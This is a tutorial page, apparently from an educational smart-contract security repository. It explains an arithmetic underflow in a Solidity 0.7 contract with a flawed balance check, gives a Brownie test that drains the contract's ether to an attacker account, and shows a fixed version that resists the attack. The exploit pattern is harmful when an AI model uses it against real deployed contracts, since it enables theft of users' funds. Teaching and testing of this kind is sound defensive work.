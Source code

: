 ```yaml
---
sidebar_position: 3
tags: [underflow, solidity, attack]
---
```


# Underflow

:::caution DEPRECATED

This exploit is reproducible only in Solidity **version 7** and below. Since the release of the version **8**, the overflow code causes `VirtualMachineError` by default.

:::

### Description

An arithmetic underflow very similar to the [overflow](./overflow.md) problem. However, here the exploit would attempt to convert zero into a positive integer and thus allow us to execute the logic of the contract we would not be allowed otherwise.

Consider the following smart contract:


```solidity title=/contracts/underflow/EtherStoreUnderflow.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/underflow/EtherStoreUnderflow.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

import "@openzeppelinV7/contracts/utils/ReentrancyGuard.sol";

contract EtherStoreUnderflow is ReentrancyGuard {
    mapping(address => uint256) public balances;

    ...

    function withdraw() public nonReentrant {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");

        require(sent, "Transfer failed.");

        balances[msg.sender] = 0;
    }

    function transfer(address _to, uint256 _value)
        public
        nonReentrant
        returns (bool)
    {
        // highlight-next-line
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    ...
```

To perform this attack, we assume that the contract's balance is not 0. Some users have deposited ETH. Then two new users come into the play. Let's say an attacker and his friend. Both have 0 balance on this contract. However, not for long. The line of the attacker's interest is 29. The underflow of the `uint256` variable will result in a positive number if we perform a simple arithmetic operation with the `_value` of the contract balance minus 1, for instance.


### How to test

Let's consider the following unit test executing the attack:

```python title=/tests/underflow/test_ether_store_underflow.py sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/underflow/test_ether_store_underflow.py#L22

import pytest
from brownie import exceptions
from scripts.utils import (
    get_attacker_account,
    get_default_account,
    get_user_account,
)
from scripts.underflow.deploy_and_attack import deploy_contract, deploy_fixed_contract
from web3 import Web3



def test_ether_store_underflow_successful_attack():
    store_contract = deploy_contract()

    # 1.Deposit some funds to the contract
    deposit_tx = store_contract.deposit(
        {"from": get_default_account(), "value": Web3.toWei(30, "ether")}
    )

    deposit_tx.wait(1)

    # 2. Prepare users to perform the attack, and fixate their balances before the execution
    attacker = get_attacker_account()
    attackers_friend = get_user_account()
    attacker_balance = attacker.balance() / 10**18
    attackers_friend_balance = attackers_friend.balance() / 10**18
    store_balance = store_contract.balanceOf() / 10**18

    print(f"Store balance: {store_balance} ETH")

    # 3. Lets withdraw everything - 1, for example
    WITHDRAW_AMOUNT = store_balance - 1

    # 4. Call transfer function of the contract to shuffle the funds to the attacker's account
    transfer_tx = store_contract.transfer(
        attacker.address,
        Web3.toWei(WITHDRAW_AMOUNT, "ether"),
        {"from": attackers_friend},
    )
    transfer_tx.wait(1)

    assert store_contract.user_balanceOf(attacker.address) == Web3.toWei(
        WITHDRAW_AMOUNT, "ether"
    )

    # 5. Withdraw funds from the contract to the attacker account
    withdraw_tx = store_contract.withdraw({"from": attacker})
    withdraw_tx.wait(1)

    assert store_contract.balanceOf() / 10**18 == 1
    # highlight-next-line
    assert attacker.balance() / 10**18 == attacker_balance + WITHDRAW_AMOUNT
    assert attackers_friend.balance() / 10**18 == attackers_friend_balance

    ...

```
The test asserts the attackers balance on line 53, confirming a successful transfer of the `WITHDRAW_AMOUNT`.


### How to fix

If you would use solidity prior v8, it's necessary to use safe math libraries to fix this problem. One of the examples is the [SafeMath](https://github.com/OpenZeppelin/zeppelin-solidity/blob/master/contracts/math/SafeMath.sol) from OpenZeppelin. The best option is to upgrade Solidity to v8.


### Demo


I [chose](https://github.com/kkateq/solidity-hacks/blob/main/contracts/underflow/EtherStoreUnderflowFixed.sol) upgrading Solidity version to fix the problem. Additionally, this points again that using the latest available solidity version is the safest option to go.

Check out the unit test that now fails to exploit the contract:

```python title=/tests/underflow/test_ether_store_underflow.py sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/underflow/test_ether_store_underflow.py#L22

   ...

def test_ether_store_underflow_fixed_failed_attack():
    store_contract = deploy_fixed_contract()

    # 1.Deposit some funds
    deposit_tx = store_contract.deposit(
        {"from": get_default_account(), "value": Web3.toWei(30, "ether")}
    )

    deposit_tx.wait(1)

    attacker = get_attacker_account()
    attackers_friend = get_user_account()
    attacker_balance = attacker.balance() / 10**18
    attackers_friend_balance = attackers_friend.balance() / 10**18
    store_balance = store_contract.balanceOf() / 10**18
    print(f"Store balance: {store_balance} ETH")

    # Lets withdraw everything - 1, for example
    WITHDRAW_AMOUNT = store_balance - 1

    # 2. Call transfer function of the contract to shuffle the funds to the attacker's account
    #  highlight-next-line
    with pytest.raises(exceptions.VirtualMachineError):
        transfer_tx = store_contract.transfer(
            attacker.address,
            Web3.toWei(WITHDRAW_AMOUNT, "ether"),
            {"from": attackers_friend},
        )
        transfer_tx.wait(1)

    assert store_contract.user_balanceOf(attacker.address) == 0
    assert store_contract.balanceOf() / 10**18 == store_balance
    assert attacker.balance() / 10**18 == attacker_balance
    assert attackers_friend.balance() / 10**18 == attackers_friend_balance

    ...

```

So the test above shows that a transfer attempt would raise an exception which would be the expected behavior.

**Thank you for reading and good luck with building secure blockchain!**
